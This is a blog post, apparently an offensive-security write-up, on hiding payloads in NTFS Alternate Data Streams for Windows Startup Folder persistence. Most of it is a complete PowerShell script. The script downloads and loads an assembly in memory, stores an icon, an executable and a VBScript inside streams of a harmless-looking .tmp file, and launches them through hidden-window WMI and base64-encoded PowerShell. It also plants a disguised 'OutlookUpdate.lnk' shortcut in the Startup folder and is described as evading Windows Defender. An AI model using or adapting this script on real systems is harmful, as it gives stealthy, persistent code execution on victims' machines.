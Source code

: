 ```yaml
---
layout: post
title: Persistence using Startup Folder II - Using Alternate Data Streams
excerpt_separator: <!--more-->
---
```


Following the previous post where we used a shortcut in the Startup Folder to execute files with the hidden attribute, I did some tests using Alternate Data Streams to store all payloads inside a seemingly benign file.

<!--more-->


Gist: 

- [Script to create files](https://gist.github.com/ricardojoserf/0b12b07218b232a261f8631a90c79f1a)

<br>

-------------------------------------------


## Previous work

In the [last post](https://ricardojoserf.github.io/startupfolder/) we found it is possible to create a shortcut in the Startup Folder, with:

- A custom icon for the shortcut, for which we download an icon which is stored with the "hidden" attribute

- A VBScript, which is generated during the script execution with the "hidden" attribute and is used to call the executable file

- An executable file which we download and store with the "hidden" attribute

The file executes without any window popping at any moment and no alerts generated by Windows Defender, which looked good enough.

However, if the user has set the options to view hidden files in File Explorer, the files would be visible and (most probably) raise an alarm. 


<br>


## Using Alternate Data Streams

After giving it some thought, storing all payload files (icon, VBScript and executable files) inside a fourth file was feasible, and I thought of two options:

- Extended Attributes - Related to this topic I coded [SharpEA](https://github.com/ricardojoserf/SharpEA) some months ago.

- Alternate Data Streams - Related to this topic I coded [SharpADS](https://github.com/ricardojoserf/SharpADS) also some months ago.


Both look promising choices, but for now I only used Alternate Data Streams. The main reason is that I found this great gist:

- [api0cradle - Execute from Alternate Data Streams](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

So let's see how we can achieve this: creating a bening temporary file (".tmp") in a non-administrative user's temporary folder and create 3 Alternate Data Streams to store in each of them the icon, VBScript and executable files. 


<br>

## Creating the code

The code is quite straightforward but I would like to explain some parts of it.

#### Directory and file variables

The file will be created with the value of the hostname variable and with the extension ".tmp". This is because it will be stored in the user's temporary folder, where there are many files with the same extension:

```powershell
$Dir = "$($env:USERPROFILE)\Appdata\Local\temp"
$File = "$($env:COMPUTERNAME).tmp"
```

####  Load SharpADS assembly in memory

To make the process simpler I used SharpADS, which can be loaded in memory because it is coded in C#, but you can just use Powershell. To load the file in memory you can use:

```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData("$Url/$SharpADS")
$assembly = [System.Reflection.Assembly]::Load($bytes)
$entryPointMethod = $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')
$entryPointMethod.Invoke($null, (, [string[]] ('clear', "$Dir\$File")))
```

Next, you can use it to create an Alternate Data Stream which in this case will contain the bytes of the icon file:

```powershell
$entryPointMethod.Invoke($null, (, [string[]] ('write', "$Dir\$File","$ADSico","$Url/$IcoFile")))
```

The script repeats the same code to store the VBScript and executable files in two other Alternate Data Streams.



#### Shortcut's TargetPath and Arguments

The parameters TargetPath and Arguments in the shortcut file define what is executed when it is clicked or in this case when Windows starts up. In last post, TargetPath value was the VBScript and Arguments was not used, which allowed to execute everything without any window popping up. 

However, it is not possible to use this approach this time. If you use the VBScript ADS value of the VBScript as TargetPath, the shortcut opens the file itself, in this case the ".tmp" file. Using other words, the $DATA Alternate Data Stream is opened by the shortcut file instead of the Alternate Data Stream where the VBScript is stored.

This is where api0cradle's gist saves the day. We find there are some alternatives to execute a payload in an ADS, the first one is executing the executable file directly using WMI: 

```
wmic process call create C:\path\file.tmp:ADS.exe
```
Translated to the Powershell shortcut creation, we would set the following values in a shortcut object $Shortcut: 

```powershell
$Shortcut.TargetPath = "wmic"
$Shortcut.Arguments = "process call create $Dir\$File`:$ADSexe"
```

This works but there is a window popping up which looks suspicious. It can be improved if the parameter "/output:CLIPBOARD" is added:

```powershell
$Shortcut.TargetPath = "wmic"
$Shortcut.Arguments = "/output:CLIPBOARD process call create $Dir\$File`:$ADSexe"
```

After many tests, the best alternative I found (for now) is using again the VBScript, but this time calling it with cscript in TargetPath and the file in the Arguments parameter:

```powershell
$Shortcut.TargetPath = "cscript"
$Shortcut.Arguments = "$Dir\$File`:$ADSvbs"
```

A window pops up... but it is only a flash. It is not perfect but this was just a test so... eh... good enough :)

<br>

## Files needed in the web server

From what we explained, the web server must host:

- SharpADS.exe file, which you can find pre-compiled in [here](https://github.com/ricardojoserf/SharpADS/releases/tag/v1.0)

- The icon file. For example: "microsoft-outlook.ico"

- The executable file. For example: "calc.exe"

The shortcut and VBScript files are created by the script.


<br>

## Final script

This process is automated in the following [script](https://gist.github.com/ricardojoserf/0b12b07218b232a261f8631a90c79f1a):

```powershell
$Dir = "$($env:USERPROFILE)\Appdata\Local\temp"
$File = "$($env:COMPUTERNAME).tmp"
$ExeFile = "calc.exe"
$Url = "http://127.0.0.1:80"
$IcoFile = "microsoft-outlook.ico"
$SharpADS = "SharpADS.exe"
$ADSexe = "ADS.exe"
$ADSico = "ADS.ico"
$ADSvbs = "ADS.vbs"
$LnkFile = "OutlookUpdate.lnk"

## Create .TMP file
cmd /c "echo Updating file... [OK] > ""$Dir\$File"""

## Load SharpADS in memory
$bytes = (New-Object System.Net.WebClient).DownloadData("$Url/$SharpADS")
$assembly = [System.Reflection.Assembly]::Load($bytes)
$entryPointMethod = $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')
$entryPointMethod.Invoke($null, (, [string[]] ('clear', "$Dir\$File")))

## Save .ICON as ADS
$entryPointMethod.Invoke($null, (, [string[]] ('write', "$Dir\$File","$ADSico","$Url/$IcoFile")))

## Save .EXE as ADS
$entryPointMethod.Invoke($null, (, [string[]] ('write', "$Dir\$File","$ADSexe","$Url/$ExeFile")))

## VBS as ADS
$B64Path = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes("wmic process call create '""$Dir\$File`:$ADSexe""'"))
$VBScontent = "Const HIDDEN_WINDOW = 0 `nstrComputer = ""."" `nSet objWMIService = GetObject(""winmgmts:"" & ""{impersonationLevel=impersonate}!\\"" & strComputer & ""\root\cimv2"") `nSet objStartup = objWMIService.Get(""Win32_ProcessStartup"") `nSet objConfig = objStartup.SpawnInstance_ `nobjConfig.ShowWindow = HIDDEN_WINDOW `nSet objProcess = GetObject(""winmgmts:root\cimv2:Win32_Process"") `nerrReturn = objProcess.Create( ""powershell -e $B64Path"", null, objConfig, intProcessID)"
$entryPointMethod.Invoke($null, (, [string[]] ('write', "$Dir\$File","$ADSvbs",$VBScontent)))

## Create .LNK
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile")
### Shortcut will execute cscript $Dir\$File:ADS.vbs
$Shortcut.TargetPath = "cscript"
$Shortcut.Arguments = "$Dir\$File`:$ADSvbs"
#### $Shortcut.TargetPath = "wmic"
#### $Shortcut.Arguments = "process call create $Dir\$File`:$ADSexe"
$Shortcut.IconLocation = "$Dir\$File`:$ADSico"
$Shortcut.Save()

## Check file and ADS values
echo "File created in path $Dir\$File"
Get-Item -Stream * $Dir\$File | select Stream,Length
```

<br>

